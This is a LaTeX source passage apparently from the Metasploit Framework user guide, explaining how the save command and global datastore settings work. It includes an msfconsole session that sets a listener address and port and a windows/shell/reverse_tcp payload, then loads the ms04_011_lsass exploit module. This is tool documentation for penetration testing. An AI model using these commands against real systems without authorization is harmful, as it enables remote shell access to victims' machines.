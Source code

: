 \documentclass{report}
\begin{document}
    \section{Saved DataStore}
    \label{ENV-SAVE}

\par
The \texttt{save} command can be used to synchronize the Global and all module
datastores to disk. The saved environment is written to
\texttt{HOME/.msf3/config} and will be loaded when any of the user interfaces
are executed.

    \section{DataStore Efficiency}
    \label{ENV-EFF}

\par
This split datastore system allows you save time during exploit development
and penetration testing. Common options between exploits can be defined in the
Global datastore once and automatically used in any exploit you load thereafter.

\par
The example below shows how the \texttt{LPORT}, \texttt{LHOST}, and
\texttt{PAYLOAD} global datastore can be used to save time when exploiting a set
of Windows-based targets. If this datastore was set and a Linux exploit was
being used, the module datastore (via \texttt{set} and \texttt{unset}) could be
used to override these defaults.

{\footnotesize
\begin{verbatim}
f > setg LHOST 192.168.0.10
LHOST => 192.168.0.10
msf > setg LPORT 4445
LPORT => 4445
msf > setg PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > show options

Module options:

...

Payload options:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.0.10     yes       The local address
   LPORT     4445             yes       The local port

...

\end{verbatim}}

    \section{DataStore Variables}
    \label{ENV-VAR}
\end{document}
